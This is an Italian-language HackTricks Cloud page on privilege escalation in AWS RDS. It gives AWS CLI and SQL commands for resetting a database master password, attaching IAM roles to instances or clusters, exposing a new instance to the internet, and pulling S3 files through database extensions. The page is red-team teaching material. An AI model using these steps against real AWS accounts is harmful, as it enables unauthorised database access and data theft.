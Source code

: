 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Servizio di Database Relazionale

Per ulteriori informazioni su RDS controlla:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con quel permesso un attaccante può **modificare la password dell'utente master**, e il login all'interno del database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Dovrai essere in grado di **contattare il database** (di solito sono accessibili solo da reti interne).
{% endhint %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei database.

### rds-db:connect

Secondo la [**documentazione**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utente con questo permesso potrebbe connettersi all'istanza DB.

### Abuso dei permessi IAM del ruolo RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se eseguendo **`SELECT datname FROM pg_database;`** trovi un database chiamato **`rdsadmin`**, sai di essere all'interno di un **database postgresql AWS**.
{% endhint %}

Prima puoi controllare se questo database è stato utilizzato per accedere a qualche altro servizio AWS. Potresti controllare questo guardando le estensioni installate:
```sql
SELECT * FROM pg_extension;
```
Se trovi qualcosa come **`aws_s3`** puoi assumere che questo database ha **una sorta di accesso a S3** (ci sono altre estensioni come **`aws_ml`** e **`aws_lambda`**).

Inoltre, se hai i permessi per eseguire **`aws rds describe-db-clusters`** puoi vedere lì se il **cluster ha qualche ruolo IAM associato** nel campo **`AssociatedRoles`**. Se presente, puoi assumere che il database fosse **preparato per accedere ad altri servizi AWS**. Basandoti sul **nome del ruolo** (o se riesci a ottenere le **permissive** del ruolo) potresti **indovinare** quale accesso extra ha il database.

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se avessi **credenziali AWS raw** potresti anche usarle per accedere ai dati S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **non ha bisogno di modificare alcuna variabile del gruppo di parametri** per poter accedere a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
All'interno di un mysql, se esegui la query **`SELECT User, Host FROM mysql.user;`** e c'è un utente chiamato **`rdsadmin`**, puoi assumere di essere all'interno di un **AWS RDS mysql db**.
{% endhint %}

All'interno del mysql esegui **`show variables;`** e se le variabili come **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, hanno valori, puoi assumere che il database sia preparato per accedere ai dati S3.

Inoltre, se hai i permessi per eseguire **`aws rds describe-db-clusters`** puoi controllare se il cluster ha qualche **ruolo associato**, il che di solito significa accesso ai servizi AWS).

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBCluster` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Questo potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.\
Nota che alcuni DB richiedono configurazioni aggiuntive come Mysql, che deve specificare l'ARN del ruolo nei gruppi di parametri.

### `rds:CreateDBInstance`

Solo con questo permesso un attaccante potrebbe creare una **nuova istanza all'interno di un cluster** che esiste già e ha un **ruolo IAM** allegato. Non sarà in grado di cambiare la password dell'utente master, ma potrebbe essere in grado di esporre la nuova istanza del database a Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante con i permessi `rds:CreateDBInstance` e `iam:PassRole` può **creare una nuova istanza RDS con un ruolo specificato allegato**. L'attaccante può quindi potenzialmente **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
Alcuni requisiti del ruolo/profilo istanza da allegare (da [**qui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Il profilo deve esistere nel tuo account.
* Il profilo deve avere un ruolo IAM che Amazon EC2 ha i permessi di assumere.
* Il nome del profilo dell'istanza e il nome del ruolo IAM associato devono iniziare con il prefisso `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBInstance` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Questo potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
L'istanza DB deve essere al di fuori di un cluster per questo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
